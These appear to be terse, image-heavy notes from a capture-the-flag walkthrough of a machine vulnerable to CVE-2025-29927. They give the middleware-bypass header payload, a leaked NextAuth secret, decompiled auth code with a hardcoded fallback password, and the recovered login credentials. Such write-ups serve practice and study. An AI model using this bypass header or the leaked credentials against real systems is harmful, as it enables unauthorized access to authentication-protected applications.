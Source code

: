 ![[IMG-20250823234029175.png]]

# [CVE-2025-29927](https://github.com/lirantal/vulnerable-nextjs-14-CVE-2025-29927)

![[IMG-20250824012840494.png]]

![[IMG-20250824012910247.png]]
USE:
```
x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware
```

![[IMG-20250824012954799.png]]

![[IMG-20250824013047596.png]]

![[IMG-20250824172304583.png]]

![[IMG-20250824171318691.png]]



![[IMG-20250824171346486.png]]

![[IMG-20250824172115997.png]]

```
NEXTAUTH_SECRET=82a464f1c3509a81d5c973c31a23c61a
```

![[IMG-20250825144128893.png]]

```
  "/api/auth/[...nextauth]": "pages/api/auth/[...nextauth].js",
```

![[IMG-20250825144743209.png]]

```js
let o = {
        session: { strategy: "jwt" },
        providers: [
          r.n(CredentialsProvider)()({
            name: "Credentials",
            credentials: {
              username: { label: "User", type: "username" },
              password: { label: "Password", type: "password" }
            },
            authorize: async e =>
              e?.username === "jeremy" &&
              e.password === (process.env.ADMIN_SECRET ?? "MyNameIsJeremyAndILovePancakes")
                ? { id: "1", name: "Jeremy" }
                : null
          })
        ],
        pages: { signIn: "/signin" },
        secret: process.env.NEXTAUTH_SECRET
      };
```

```
user: jeremy
password: MyNameIsJeremyAndILovePancakes
```

![[IMG-20250825144931061.png]]

![[IMG-20250825172605435.png]]

[Doc Terraform](https://developer.hashicorp.com/terraform/cli/config/environment-variables)

![[IMG-20250825172549609.png]]

![[IMG-20250825173844708.png]]



![[IMG-20250825165336107.png]]
